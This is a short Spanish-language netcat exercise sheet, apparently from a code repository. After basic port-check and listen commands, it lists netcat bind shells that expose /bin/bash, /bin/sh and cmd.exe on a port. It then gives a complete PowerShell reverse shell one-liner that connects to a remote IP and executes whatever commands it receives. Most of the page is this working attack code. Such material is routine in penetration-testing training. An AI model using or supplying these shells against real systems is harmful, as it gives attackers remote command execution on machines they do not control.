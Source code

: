 
# Ejercicios Netcat

Opciones de netcat:
`nc -h`

Verificar si un puerto esta abierto:
`nc -v 192.168.26.236 80`

Escuchar en un puerto por conexiones entrantes:
`nc -lvp 8000`

Conectarse a un puerto:
`nc 192.168.26.236 8000`

Escuchar en un puerto por conexiones entrantes y ejecutar la aplicacion selecionada con la opcion -e
`nc -lvp 8000 -e /bin/bash` 
`nc -lvp 8000 -e /bin/sh` 
`nc.exe -lvp 8000 -e c:\windows\system32\cmd.exe` 

# Powershell Reverse Shell One Liner by Nikhil SamratAshok Mittal @samratashok

$client = New-Object System.Net.Sockets.TCPClient("192.168.26.236",8000);$stream = $client.GetStream();[byte[]]$bytes = 0..255|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
